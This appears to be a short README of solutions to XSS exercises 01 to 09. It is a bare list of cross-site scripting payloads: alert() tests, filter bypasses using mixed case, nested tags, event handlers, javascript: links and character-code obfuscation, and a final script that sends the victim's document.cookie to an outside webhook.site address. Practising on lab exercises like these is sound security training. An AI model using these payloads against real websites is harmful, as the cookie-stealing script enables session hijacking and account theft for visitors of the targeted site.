 # XSS exos 01 to 09

`<script>alert(1)</script>`

`<sCript>alert(1)</sCRIpt>`

`<sc<script>ript>alert(1)</sc</script>ript>`

`<img src="1" onerror="alert('1')">`

`<a onmouseover ="alert('1')">test </a>`

`<a href='javascript:alert(1)'> test </a>`

`<divonmouseover ="alert('1')">test </div>`

`<script>eval(String.fromCharCode(97, 108, 101, 114, 116, 40, 49, 41) )</script>`

`hacker%27;alert(%2744073236-f0a6-4005-bb2f-9307b4fcd1a4%27);//`

`https://someSite.com/index.php/”><script>alert(“XSS”)</script>`

```
<script>
document.write('<img src="https://webhook.site/69a38b1b-c965-4320-b7bf-c015174c9f93?c='%2bdocument.cookie%2b'" />');
</script>
```
